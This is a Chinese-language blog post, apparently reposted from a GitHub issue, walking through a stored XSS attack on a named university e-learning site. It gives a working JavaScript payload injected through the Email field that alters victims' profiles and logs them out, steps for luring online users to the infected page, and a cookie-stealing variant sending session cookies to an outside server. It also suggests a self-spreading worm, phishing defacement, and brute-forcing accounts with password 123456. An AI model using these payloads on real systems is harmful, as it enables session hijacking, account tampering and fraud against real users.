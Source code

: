 # eol.wyu.cn上的XSS漏洞

*原发表于: https://github.com/WuyiUniversity/forum/issues/13*

*2014-06-01*

## 爆破密码123456之徒

[前面一节](https://github.com/WuyiUniversity/forum/issues/12)提到如何列举密码为123456的学号。它一不设验证码，二不封恶意IP，因此可以轻松爆破入口。

其实有那个列表，加上暴力，就可以干“很多事情”了。但是，今天我们讲讲eol上的XSS漏洞。

## 能干哪些“坏事”？

- ~~修改密码~~（需要原密码）
- 修改资料
- 退出登录/泄露cookie

> 就这么多？

对，确实不多，另外如“选课”、“写笔记”、“发话题”等比较杂，我们不去讨论。

> eol没人上啊，搞XSS有意义吗？

对，是很少人上，不过我们玩的就是**角色扮演、以小见大**，同时感到轻松。

## 注入代码，“分享”链接

1. 登录一个账号，进入“修改信息”，点击“修改”

1. 在“Email”中填入以下内容：

  ```html
  <script src="//code.jquery.com/jquery.min.js"></script>
  <script>
    function logout() {
      $.get('/resource/logout.jsp')
      $.get('/eol/popups/logout.jsp')
    }
    function getSid(cb) {
      $.get('/eol/main.jsp', function(html){
        var sid = html.match(/\?userid=(\d+)/)[1]
        cb(sid)
      })
    }
    function modify(data, cb) {
      getSid(function(sid){
        $.post('/eol/popups/student_info_modify_do.jsp', {
          SID: sid,
          from: 'welcomepage',
          rd: 'null',
          IPT_EMAIL: data.email,
          IPT_PHONE: data.phone,
          IPT_MOBILE: data.mobile,
          IPT_SUMMARY: data.summary
        }, cb)
      })
    }
    //////////////
    modify({
      sid: sid,
      email: '???',
      phone: '???',
      mobile: '???',
      summary: '???'
    }, logout)
  </script>
  ```

1. 打开控制台，输入：

  ```js
  document.main.document.form1.submit()
  ```

1. 提示修改成功，代码注入完毕，控制台输入：

  ```js
  document.main.location.href
  ```

1. 可以去掉`&`后面的部分，得到类似下面的url，将它“分享”给别人：

  ```
  http://eol.wyu.cn/eol/popups/viewstudent_info.jsp?SID=36066
  ```

1. 将它“分享”给其他在线的eol用户

## 简单的解析

### 范围的局限

这个url就是被注入的页面了，它是代码执行的入口，所以要诱使别人打开。

这里条件有些苛刻，必须是**在线的同站用户**，因为在这里我们注入的代码仅对他们有效。

我们的代码会使他们修改信息，然后退出登录。

### cookie泄露

当然，你可以把`logout`换成`postCookie`：

```js
function postCookie() {
  //$.get('//my.server.com/eol/zombie?cookie=' + document.cookie)
  $('<img>').attr('src', '//my.server.com/eol/zombie?cookie=' + document.cookie)
}
```

实现cookie泄露，而不是退出登录，服务端得到cookie后，可以利用其身份直接进入系统。

### 病毒式传播

`modify`的参数，也就是修改后的资料，当然不必非得是`???`，可以自己定。

假如我们把`email`设成起初填入“Email”中那冗长的段代码本身（需要重构），想象一下，假如那个入口页本身就是用户能频繁访问到的，不怎么需要我们去“分享”的，那么会怎样？

结果会是，一传十、十传百，甚至最终全站的人都“无法登录”了。当然，只是表面上，但也是一次十足的“病毒式传播”了。

## 其他玩法

正如前面提到的，还有“选课”、“写笔记”、“发话题”等各种操作，都可以实现。

噢，对了，还可以注入样式和内容，比方说把那个入口页改造成一个全新的自己的网页，伪造成新闻、公告等等任何你能想到的具有欺诈性成分。

我并不算特别了解XSS，表达也主观。**这是XSS吗？欢迎大家吐槽，一起交流。**

---

## 号被删

刚刚发现我的eol账号居然被删除了！我想是这两天异常操作太频繁吧，最终**自食其果**。

> 1. 您所查询的用户不存在!
2. 用户已被删除!

他们居然干得出来！**“学习交流！学习交流！”**

---

最后的补充：后来我到办公室反映自己号上不了，对这件事只字未提，
工作人员表示惊讶后，给我设定了一个新号，用户名相同但ID是新的，问题就解决了，也逃过一劫。
